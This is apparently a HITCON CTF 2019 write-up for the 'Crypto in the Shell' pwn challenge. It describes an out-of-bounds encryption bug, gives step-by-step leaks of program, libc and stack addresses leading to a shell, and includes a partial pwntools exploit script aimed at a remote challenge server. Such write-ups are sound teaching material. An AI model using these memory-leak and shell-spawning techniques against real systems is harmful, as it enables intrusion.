 ```yaml
---
layout: post
title:  "HITCON CTF 2019 Pwn Write-up"
date:   2019-09-16 00:00:00 +0000
categories: jekyll update
---
```


## Crypto in the Shell

The vulnerability is easy: the encryption causes out-of-bound access. We can encrypt a piece of memory with arbitrary offset and the result of encryption is printed. Here are steps to exploit:

1. Encrypt the key, and the result of encryption will be shown, which is the new key
2. Encrypt the offset `-0x3a0`, decrypt the result to leak the program address
3. Similarly, encrypt the offset `-0x40` to leak `libc` address, since it stores `stderr`. Note that we can not use `stdout` or `stdin` to leak `libc` address, since they are being used by the program and changing their contents will cause crash
4. Use `libc_addr+0x3f04c0` to leak stack address, then we can rewrite loop variable `i` to bypass number of encryption limitation. However, due to existence of ASLR, we only have `1/2` probability to make `i` negative
5. Brute-force byte-by-byte to rewrite `ld_addr+0x228968` to `"sh"` and `ld_addr+0x228f60` to `&system`. Due to remote timeout, we need to pre-calculate number of encryptions needed to obtain a certain byte and send payloads altogether
6. `exit` to get the shell

```python
from pwn import *
from random import *
from time import time
from hashlib import *
from Crypto.Cipher import AES
from binascii import *

AES_BLOCK_SIZE = 16
g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process("./chall")
	gdb.attach(sh)
else:
	sh = remote("3.113.219.89", 31337)

def enc(off, size=0xf):
	off &= 0xffffffffffffffff
	size &= 0xffffffffffffffff
	sh.sendline(str(off))
	sh.sendlineafter("size:", str(size))
	ret = sh.recvuntil("offset:")[:-len("offset:")]
	assert len(ret) % 0x10 == 0
	return ret

key = enc(-0x20)
iv = 0x10 * '\x00'
def dec(data):
	return AES.new(key, AES.MODE_CBC, iv).decrypt(data)
def enc2(data):
	return AES.new(key, AES.MODE_CBC, iv).encrypt(data)

prog_addr = dec(enc(-0x3a0))
prog_addr = u64(prog_addr[8:]) - 0x202008
print hex(prog_addr)
```